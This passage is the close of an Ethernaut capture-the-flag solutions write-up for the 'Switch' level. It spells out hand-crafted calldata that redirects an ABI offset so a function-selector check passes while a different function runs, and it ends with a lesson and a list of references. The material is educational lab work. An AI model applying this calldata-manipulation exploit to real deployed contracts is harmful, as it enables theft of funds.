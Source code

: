     - The idea is that we can change `Chunk 0` pointer to point to `turnSwitchOn` instead, while being careful to keep `turnSwitchOff` at the same hardcoded location of 68 bytes (4 function signature + 32 chunk byte + 32 chunk byte) location so the `onlyOff` check passes.
    - Function signature: `0x30c13ade`
    - Chunk 0: `0000000000000000000000000000000000000000000000000000000000000060`
    - Chunk 1: `0000000000000000000000000000000000000000000000000000000000000000`
    - Chunk 2: `20606e1500000000000000000000000000000000000000000000000000000000`
    - Chunk 3: `0000000000000000000000000000000000000000000000000000000000000004`
    - Chunk 4: `76227e1200000000000000000000000000000000000000000000000000000000`
    - `Chunk 0` now points to `Chunk 3` instead of `Chunk 1` because 60 is in hexidecimal which translates to 96 bytes. And `Chunk 3` says 'The next 4 bytes after me is the actual data'. So we put `turnSwitchOn` function signature there. The check passes, verifying that `turnSwitchOff` is at locatoin 68, but `flipSwitch` will use the function signature `turnSwitchOn` instead of `turnSwitchOff`. Concatenate this and pass it in as the data, and submit instance.
    - `await sendTransaction({from: player, to: contract.address, data: manipulatedCalldata})`
3. Lessons:
    - Assuming static positions in calldata with dynamic types is bad. The EVM doesn't understand ABI encoding or function signatures, those are concepts from Solidity. If you venture into the low-level assembly, understand that there is a difference between what the EVM digests and what the calldata is actually doing and how it is organized.


### References/Tools
- ethernaut: https://ethernaut.openzeppelin.com/
- Most solutions heavily inspired and adapted from Smart Contract Programmer's remix solutions: https://www.youtube.com/@smartcontractprogrammer
- DoubleEntryPoint Solution: https://github.com/osmanozdemir1/ethernaut-solutions
- DoubleEntryPoint great overview: https://medium.com/coinmonks/26-double-entry-point-ethernaut-explained-f9c06ac93810
- The most elegant of the GatekeeperThree solutions: https://ardislu.dev/ethernaut/28
- Switch good explanation 1: https://ardislu.dev/ethernaut/29
- Switch good explanation 2: https://medium.com/coinmonks/28-gatekeeper-three-ethernaut-explained-596115f165a
- Switch good explanation 3: https://github.com/0xIchigo/Ethernaut/blob/master/Switch/Solution.md
- provider: https://alchemy.com/
- metamask: https://metamask.io/
- faucet for free Sepolia Test ETH: https://sepoliafaucet.com/
- hardhat: https://hardhat.org/docs
- etherscan sepolia: https://sepolia.etherscan.io/
